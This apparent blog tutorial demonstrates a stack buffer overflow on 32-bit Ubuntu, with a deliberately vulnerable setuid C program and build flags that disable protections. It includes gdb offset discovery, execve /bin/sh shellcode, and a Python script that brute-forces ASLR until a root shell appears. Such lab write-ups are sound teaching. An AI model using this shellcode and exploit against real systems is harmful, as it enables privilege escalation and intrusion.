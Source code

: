 ```yaml
---
layout: post
title: Exploiting Simple Buffer Overflow (2) --- Shellcode + ASLR Bruteforcing
comments: true
---
```


Hi! For my second article on exploiting simple buffer overflow, I want to talk about bruteforcing against ASLR (Address Space Layout Randomization). For those who are not so familiar with ASLR, it is a common countermeasure technique against traditional stack-based stack buffer overflow exploit--- it randomizes the memory address layout (e.g. stack) every time a program is run so that an attacker cannot know the exact location of shellcode/variable/etc beforehand.
It is enabled by default for most recent operation systems, and it is fairly effective for 64-bit systems (the range of randomization of address layout is 28-bit). However, for 32-bit systems, the range of randomization of address layout is so much smaller that bruteforcing is feasible.  
So, in this article, I will demonstrate a bruteforce against ASLR in 32-bit system, so that an arbitrary shellcode can be run. Note that other countermeasure techniques (e.g. DEP, Canary) are not used for the sake of simplicity in this experiment. (I promise that I will post about attacks against these techniques in the future!) Also, source code used in this article can be downloaded from [here](https://github.com/taishi8117/bof_lab/tree/master/bof).  

-------------------

I will use Ubuntu 14.04 32-bit for this experiment.  

```
canopus@canopus:~/bof_lab/bof|master
⇒  uname -a
Linux canopus 3.16.0-50-generic #67~14.04.1-Ubuntu SMP Fri Oct 2 22:08:53 UTC 2015 i686 i686 i686 GNU/Linux
canopus@canopus:~/bof_lab/bof|master
⇒  lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.3 LTS
Release:	14.04
Codename:	trusty
canopus@canopus:~/bof_lab/bof|master
⇒  gcc --version
gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4
Copyright (C) 2013 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

And here is a simple vulnerable program that I will use. As you can see, `vuln()` function has a buffer overflow vulnerability when `strcpy` is called.  

```C
#include    <stdio.h>
#include    <stdlib.h>
#include    <assert.h>
#include	<string.h>


void vuln (const char* arg){
	char buffer[100];
	strcpy(buffer, arg);
	printf("Hello %s\n", buffer);
	printf("[+] buffer @ %p\n", buffer);
}

int main (int argc, char **argv){
	
	if (argc != 2) {
		printf("Usage: %s <buffer>\n", argv[0]);
		exit(1);
	}
	vuln(argv[1]);
		return 0;
}
```

And for Makefile, make sure that `-fno-stack-protector` and `-z execstack` are included in the flags.  

```
CC=gcc
CFLAGS=-std=c99 -Wall -fno-stack-protector -z execstack

all: bof

bof: bof.o
	$(CC) $(CFLAGS) -o $@ $^
	sudo chown 0:0 $@
	sudo chmod u+s $@

bof.o: bof.c

clean:
	rm bof.o bof
```

After it was compiled, make sure that ASLR is turned on. Note that `echo 1 | sudo tee /proc/sys/kernel/randomize_va_space` can turn on ASLR. (`echo 0` to disable, `echo 2` to enable full ASLR)  

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  echo 1 | sudo tee /proc/sys/kernel/randomize_va_space
1
canopus@canopus:~/bof_lab/bof|master⚡
⇒  gdb -q ./bof
Reading symbols from ./bof...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```


Okay, let's check how ASLR affects the address of buffer.  

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  ./bof AAAA
Hello AAAA
[+] buffer @ 0xbfe9a8fc
canopus@canopus:~/bof_lab/bof|master⚡
⇒  ./bof AAAA
Hello AAAA
[+] buffer @ 0xbfb43e4c
canopus@canopus:~/bof_lab/bof|master⚡
⇒  ./bof AAAA
Hello AAAA
[+] buffer @ 0xbf8c941c
```

As you can see, the location of `buffer` is randomized every time the program is run, and it is impossible to guess its exact location for the next execution. However, if you examine the location of buffer repeatedly, you will realize that its location is within the range of `0xbf*****c`. In this case, there are 1048576 possible locations where buffer is loaded.  

Let's also examine how the program behaves when its buffer is overflowed.  

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  gdb -q ./bof
Reading symbols from ./bof...(no debugging symbols found)...done.
gdb-peda$ pattern_create 120
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
gdb-peda$ run 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
Starting program: /home/canopus/bof_lab/bof/bof 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
Hello AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA
[+] buffer @ 0xbf991ccc

Program received signal SIGSEGV, Segmentation fault.
(...)

gdb-peda$ pattern_search
Registers contain pattern buffer:
EIP+0 found at offset: 112		(<== offset: 112)
EBP+0 found at offset: 108
(...)

gdb-peda$ p $eip
$1 = (void (*)()) 0x41384141
```

As you can see, 4 bytes starting from 112th character in the input string will overwrite EIP.   

Now, we have everything that's needed to exploit this program. 


Let's also write a shellcode that executes '/bin/sh' so you can get a shell. I will not explain the details of how to write shellcode, but there are lots of resources on the web that you can find very useful.  

```asm
global _start

section .text

_start:
	xor eax, eax
	push eax

	push 0x68732f2f		;//sh
	push 0x6e69622f		;/bin
	mov ebx, esp		;moving the pointer to "/bin//sh" to ebx

	push eax			;push 0 (=eax)
	mov edx, esp		;moving 0 to edx

	push ebx
	mov ecx, esp		;moving the pointer to "/bin//sh" to ecx

	mov al, 11
	int 0x80			;execv syscall
```

This assembly code is assembled and converted to string as shown in the script below (stored in shellcode variable).

```Python
#!/usr/bin/python

import struct, sys, time
from subprocess import PIPE, Popen

# exec /bin/sh
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

bufsize = 100
offset = 12     #incl. saved ebp
nopsize = 4096

def prep_buffer(addr_buffer):
    buf = "A" * (bufsize+offset)
    buf += struct.pack("<I",(addr_buffer+bufsize+offset+4))
    buf += "\x90" * nopsize
    buf += shellcode
    return buf

def brute_aslr(buf):
    p = Popen(['./bof', buf]).wait()

if __name__ == '__main__':
    addr_buffer = 0xbf92b39c    # randomly decided
    buf = prep_buffer(addr_buffer)
    i = 0
    while True:
        print i
        brute_aslr(buf)
        i += 1
```

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  python exploit.py
(...)
(...)

[+] buffer @ 0xbfc2bc0c
996
(... snippet)

[+] buffer @ 0xbfb9930c
997
(... snippet)

[+] buffer @ 0xbf92721c
998
(... snippet)

[+] buffer @ 0xbf92a26c
# whoami
root
```
